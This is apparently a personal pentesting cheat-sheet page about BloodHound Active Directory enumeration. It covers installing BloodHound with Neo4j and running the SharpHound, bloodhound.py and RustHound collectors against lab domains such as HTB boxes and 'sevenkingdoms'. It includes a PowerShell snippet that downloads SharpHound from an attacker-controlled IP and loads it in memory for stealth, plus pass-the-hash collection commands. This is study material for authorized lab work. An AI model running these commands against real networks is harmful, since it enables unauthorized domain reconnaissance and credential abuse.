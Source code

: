 # Bloodhound
https://github.com/SpecterOps/BloodHound

![Walking the Dog](../assets/WalkTheDog.png)

Let the dog sniff things out because automated enumeration is cool

The tools used are - [BloodHound](https://github.com/BloodHoundAD/BloodHound/releases/), [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) or [SharpHound.ps1](https://www.noobsec.net/ad-cheatsheet/)

> BloodHound (Javascript webapp, compiled with Electron, uses Neo4j as graph DBMS) is an awesome tool that allows mapping of relationships within Active Directory environments. It mostly uses Windows API functions and LDAP namespace functions to collect data from domain controllers and domain-joined Windows systems.
```bash
# Install Dependancies
sudo apt-get install openjdk-11-jdk
sudo apt install -y neo4j
sudo neo4j start
sudo /usr/bin/neo4j console # For any debugging

# Change password to neo5j
http://localhost:7474/browser/

unzip BloodHound-linux-x64.zip
./BloodHound-linux-x64/BloodHound # may need --no-sandbox
```
## Collection
### Sharphound
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

> SharpHound (sources, builds) is designed targeting .Net 4.5. It can be used as a compiled executable.
> 
> It must be run from the context of a domain user, either directly through a logon or through another method such as runas (runas /netonly /user:$DOMAIN\$USER) (see Impersonation). Alternatively, SharpHound can be used with the LdapUsername and LdapPassword flags for that matter.
```powershell
# EvilWinRM
upload SharpHound.exe

# Leverage LDAPS
./SharpHound.exe --SecureLdap

SharpHound.exe --collectionmethods All

download ***.zip
```

```powershell
# Execute BloodHound in memory for more stealth
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.100.223/SharpHound.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Sharphound.Program]::Main("--collectionmethods All --domain north.sevenkingdoms.local --searchforest true --outputdirectory c:\users\public\ --zipfilename bh_north_sevenkingdoms.zip".Split())
```
### bloodhound.py
https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce

> BloodHound.py is a Python ingestor for BloodHound.
> 
> This ingestor is not as powerful as the C# one. It mostly misses GPO collection methods **but** a good news is that it can do pass-the-hash. It becomes really useful when compromising a domain account's NT hash.
```bash
bloodhound-python -u florence.ramirez -p '' -ns 10.10.11.24 -c all -d ghost.htb --zip

bloodhound-python -u d.baker --hashes LM:NT -ns 10.129.234.143 -c all -d scepter.htb --zip

bloodhound-python -u 'l.clark' -p '' -d 'infiltrator.htb' -gc 'dc01.infiltrator.htb' -ns 10.129.8.232 -c all --zip

bloodhound.py --zip -c All -d $DOMAIN -u $USERNAME -p $PASSWORD -dc $DOMAIN_CONTROLLER
```
### Rusthound![[rusthound_logo_v3.png]]
https://github.com/NH-RED-TEAM/RustHound

```bash
rusthound --domain north.sevenkingdoms.local -u "samwell.tarly" -p "Heartsbane"
```